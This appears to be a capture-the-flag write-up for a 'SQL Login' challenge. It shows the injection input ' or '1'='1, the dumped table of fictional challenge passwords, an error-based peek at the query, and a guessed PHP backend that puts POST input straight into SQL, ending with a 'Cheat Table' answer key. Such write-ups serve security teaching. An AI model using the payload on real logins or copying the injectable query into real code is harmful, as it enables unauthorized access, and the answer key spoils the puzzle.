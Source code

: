 # SQL Login

Figure out the password to login.

Get the password for user: fry

Enter the login password.

## Solution

Enter

```plain
' or '1'='1
```

It directly gives you the SQL query result. (This may be impossible for any website)

```plain
admin,Gu3ss_Myp4s%w0rd**
bender,b1t3-my-shiny-m3t4l-4$$
fry,w4ts-w/-th3-17-dungbeetles
farnsworth,P4zuzu!!
scruffy,Im_0n-br3ak
zoidberg,sp4r3-ch4ng3#$$$
```

Enter the password will solve the problem.

```plain
w4ts-w/-th3-17-dungbeetles
```

## Further

Enter

```plain
'
```

This may cause SQL syntax error.

And we got SQL error messages. We can find that the SQL is

```sql
SELECT username, password FROM users WHERE username='fry' AND password='$1'
```

We can't get this problem solved with only one request. We must enter the password in the second request.

I think the code might be

```php
<?php
$mysqli = new mysqli("localhost", "username", "password", "database");
if ($mysqli->connect_errno) {
    exit();
}
$result = $mysqli->query("SELECT username, password FROM users WHERE username='fry' AND password='$_POST['answer']'");
if ($result) {
    $row = $result->fetch_assoc();
    if ($row) {
        if ($_POST['answer'] === $row["password"]) {
            $solved = true;
        }
    }
}
```

## Cheat Table

| username   | password                   |
| :--------- | :------------------------- |
| admin      | Gu3ss_Myp4s%w0rd**         |
| bender     | b1t3-my-shiny-m3t4l-4$$    |
| fry        | w4ts-w/-th3-17-dungbeetles |
| farnsworth | P4zuzu!!                   |
| scruffy    | Im_0n-br3ak                |
| zoidberg   | sp4r3-ch4ng3#$$$           |
